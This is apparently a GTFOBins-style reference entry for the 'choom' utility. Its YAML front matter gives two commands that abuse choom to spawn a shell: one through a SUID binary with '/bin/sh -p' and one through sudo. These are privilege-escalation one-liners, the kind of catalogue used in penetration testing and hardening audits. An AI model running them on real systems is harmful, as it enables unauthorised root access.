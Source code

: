 ```yaml
---
functions:
  suid:
    - code: ./choom -n 00 -- '/bin/sh' '-p'
  sudo:
    - code: sudo choom -n 00 -- '/bin/sh'
---
```

